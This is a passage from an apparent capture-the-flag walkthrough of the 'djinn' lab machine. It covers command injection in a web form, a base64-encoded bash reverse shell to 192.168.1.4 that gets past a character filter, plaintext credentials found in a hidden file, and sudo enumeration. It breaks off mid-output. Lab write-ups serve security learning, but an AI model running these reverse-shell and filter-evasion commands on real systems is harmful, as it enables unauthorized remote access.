 When I make a wish in ``/wish`` I did ``ls`` so now we are redirected to ``/genie``. The page returns the result we wanted. Look like we can perform command injection on the input field.

![Untitled](/img/djinn1/4.png)

So I tried executing a reverse shell

![Untitled](/img/djinn1/5.png)

But It displays ``Wrong Choice of Words`` 

![Untitled](/img/djinn1/6.png)

After some experiment, I came to know it filters some special characters. We can bypass special characters by using base64 method.


```echo "bash -i >& /dev/tcp/192.168.1.4/1234 0>&1"|base64```

So I ``echo`` the base64 encoded content and pipe that to ``base64 -d``(which decodes) again and another pipe to execute it as ``bash``.

```echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuNC8xMjM0IDA+JjEK|base64 -d|bash```

![Untitled](/img/djinn1/7.png)


## Low Privilege Escalation to Nitish:

I checked ``/home`` and found 2 users ``nitish`` and ``sam``. I don't have permission on sam, but I can view ``nitish`` directory and found a hidden file ``.dev`` 
It gives me ``creds.txt``

![Untitled](/img/djinn1/8.png)

`creds.txt`

``nitish:p4ssw0rdStr3r0n9``

Now I can switch user to ``nitish``

```
www-data@djinn:/home/nitish$ su nitish
Password: 
nitish@djinn:~$ whoami
nitish
nitish@djinn:~$ 
```

## Low Privilege Escalation to Sam:

Once I got user ``nitish`` I did ``sudo -l`` and found a binary ``genie`` which can be executed as user ``sam`` without the password.
```
nitish@djinn:~$ sudo -l
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
